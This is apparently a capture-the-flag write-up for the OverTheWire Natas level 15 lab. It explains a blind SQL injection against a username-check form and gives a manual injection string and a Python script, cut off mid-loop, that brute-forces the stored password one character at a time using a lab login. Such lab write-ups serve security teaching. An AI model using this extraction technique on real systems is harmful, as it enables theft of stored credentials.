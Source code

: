 Here, it created a table that contains two columns : **username** and **password**. It asks us for the username as an input and checks if it exists in the table and tells us the result. If we blindly type **natas16**, it will state that it exists which is normal since we are seekings its password.

In this level, we can get any hardcoded information. All we can get is a yes or no answer depending on the correctness of our input.

Since it is not sanitizing our input, we can just check for certain characters in the username instead of the whole word like checking if the first letter is **"n"**.

To do so, we can write **{" or substring(username, 1, 1) = 'n' -- }** in the input field and normally it will ouputs a positive response. Don't forget to add space after -- (which stand for commenting everything that follows it) otherwise it won't work.

We can do the same process on **password** column by comparing every letter with all the possible matches and collect the ones that gave positive response. This way, we can craft the password. This approach is called **Blind Injection**.

Let's create a python script to auatomate the job.

```python
# Import the requests library for making HTTP requests
import requests
# Import string for accessing ASCII letters and digits
import string

# Character set for the password (a-z, A-Z, 0-9)
charset = string.ascii_letters + string.digits
# Expected length of the password which is 32 if we follow the patterns of previous passwords
password_length = 32
# Initialize empty string to build the password
password = ""

# Create a session to maintain authentication across requests
session = requests.Session()
# Set HTTP Basic Authentication with username and password
session.auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")

# Iterate through each count (1 to 32) to build the password substring
for count in range(1, password_length + 1):
    # Flag to track if a matching character is found for the current count
    found = False
    # Test each character in the charset
    for char in charset:
        # Craft the SQL injection payload
        # Format: " or binary substring(password,1,count)="password + char" --
        # - binary ensures case-sensitive comparison
        # - substring(password,1,count) extracts password from 1 to count
        # - Compares with current password + guessed character
        # - -- comments out the rest of the query
        payload = f'" or binary substring(password,1,{count})="{password}{char}" -- '
        # Create data dictionary for POST request with username parameter as mentioned in source code
        data = {"username": payload}
        # Send POST request with the payload
        response = session.post("http://natas15.natas.labs.overthewire.org/index.php", data=data)

        # Check if the response indicates a successful match
        if "This user exists" in response.text:
            # Add the matching character to the password
            password += char
            # Print the current count, character, and partial password
            print(f"Count {count}: {char} (Current: {password})")
            # Set flag to indicate a match was found
            found = True
            # Exit the character loop to move to the next count
```